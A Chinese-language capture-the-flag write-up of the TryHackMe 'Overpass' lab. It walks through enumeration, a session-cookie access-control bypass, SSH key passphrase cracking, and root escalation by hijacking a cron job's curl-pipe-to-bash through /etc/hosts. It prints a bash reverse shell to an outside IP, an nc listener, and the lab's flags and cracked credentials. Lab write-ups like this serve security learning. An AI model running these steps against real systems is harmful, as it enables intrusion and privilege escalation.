






# Overpass

首先拿到 ip `10.10.23.99`，並確認機器已上線

`ping 10.10.23.99`


使用 nmap 工具掃描開啟的服務，一樣使用一般以及詳細的方式來掃

`nmap -v 10.10.23.99`


`nmap -v -sV -p- -sC --min-rate 5000 10.10.23.99`


可以看到一共開了以下兩個服務

```
22      ssh     openssh 7.6
80      http    golang http server
```

既然有網頁服務，那可以打開瀏覽器看看


在首頁的部分，可以看到這個似乎是一個密碼管理工具的軟體下載頁面，此外也還可以看到有 `About Us` 及 `Downloads` 的子路徑

在 `About Us` 的路徑中，可以看到這家公司的基本資料，包含有哪些工作人員之類的


在 `Downloads` 頁面，可以看到這個密碼軟體的安裝檔案及原始碼



初步路徑探索先到這邊，接著可以使用 dirsearch 及 gobuster 工具進行路徑爆破，試試看能不能找出隱藏的路徑

`dirsearch --url http://10.10.23.99`



`gobuster dir -u http://10.10.23.99 -w /usr/share/seclists/Discovery/Web-Content/common.txt`



可以看到雖然掃出了不少路徑，不過實際上這些找出的奇怪路徑大部分是轉址，且轉址後的頁面是 404，因此實際上沒有什麼用處

不過，可以看到有一個奇怪的 `/admin/` endpoint，點進去查看會發現是管理員的登入介面


這邊我曾試過使用簡單的 SQL injection，但是注入不進去 (也試過 SQLmap 也是不行)，此外我也嘗試使用前面 `About Us` 的使用者名稱進行密碼爆破，也一樣破不出來，因此花了很多時間後看了一下[別人 writeup](https://blog.szymex.pw/thm/overpass.html)，發現關鍵是 admin 頁面引入的 `login.js`


觀察了一下邏輯可以發現，當我們成功時會設置一個 `SessionToken` 的 cookie，而可能後端只會檢查這個 cookie 有沒有被設定而沒有檢查其內容，因此有 broken access control 的問題

因此可以在開發工具的 console 執行以下程式碼，設定該 cookie 的值

```javascript
Cookies.set("SessionToken", "")
```

設置並重新整理後，可以看到有一段留言，內容是 Paradox 幫 James 生成 ssh key，並且如果 James 忘記 keyphrase 的話要自行爆破，此外也有提到加密方法的問題



既然有了 ssh secret key，此外也知道有 ssh 密碼保護，所以需要進行破解，這邊我使用 ssh2john 搭配 john 及 rockyou.txt 進行爆破

```bash
ssh2john id_rsa > hash.txt
john --wordlist=~/Desktop/temp/rockyou.txt hash.txt
```


可以看到 ssh keyphrase 是 `james13`

進行 ssh 登入

```bash
chmod 400 id_rsa
ssh james@10.10.23.99 -i id_rsa
```

查看登入身分及群組


userflag 在 `~/user.txt` 中


`thm{65c1aaf000506e56996822c6281e6bf7}`

而接下來我們需要查看有哪些可用的 sudo 指令，需要使用者密碼但我們現在沒有，因此回想起前面的網頁部分，這是一個密碼管理器，那該不會有使用者密碼之類的吧

回去 downloads 頁面並下載 source code 並閱讀，可以看到密碼是存放在 `~/.overpass` 檔案中，並使用 rot47 進行序列化

因此我們打開 `.overpass` 檔案，並將內容送到 cyberchef 的 rot47 進行解碼


因此我們可知 james 的密碼是 `saydrawnlyingpicture`

不過實際查看 `sudo -l`，發現我們沒有任何跑 sudo 的權限


因此為了找提權用的漏洞，我將 linpeas 載下來跑，發現了 cronjob 的部分奇怪的工作 (其實題目機器的 tag 也可以發現跟 cron 有關)

```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

在最下面的地方，可以看到 root 會每分鐘從 `overpass.thm` 下載 `buildscript.sh` 並進行執行，因此只要我們能竄改該網址對應的 dns 紀錄成我們的機器，並且偽造該 script 的內容成 reverse shell 之類的，我們就可以取得 root 身分

幸運的是，`/etc/hosts` 檔案我們有修改權限，因此基本上應該是可以成功


首先使用 vim，將該檔案的 `overpass.thm` 對應的 `127.0.0.1` 修改成我們機器的 ip



接著創建 `downloads/src/buildscript.sh` 路徑結構，並在裡面寫入以下 reverse shell

```bash
/bin/bash -i >& /dev/tcp/10.17.31.45/2023 0>&1
```

複製該目錄到 `/var/www/html` 下 (apache 的預設目錄)，並確保 nginx 啟動


輸入指令，啟動 reverse shell 接收端

`nc -lvnp 2023`


可以看到 reverse shell 正常打回來，且拿到的是 root 的身分

rootflag 在 `/root/root.txt` 中



`thm{7f336f8c359dbac18d54fdd64ea753bb}`

至此，我們已取得這台機器的完整權限

以下是 bouns 的 tryhackme subscription code

在 `/home` 路徑中，可以看到有一個 `tryhackme` user


而在該使用者家目錄中，可以看到也有一個 `.overpass`


一樣拿去解碼，可以得到 code 為 `gmTDyl` (已有人兌換了)

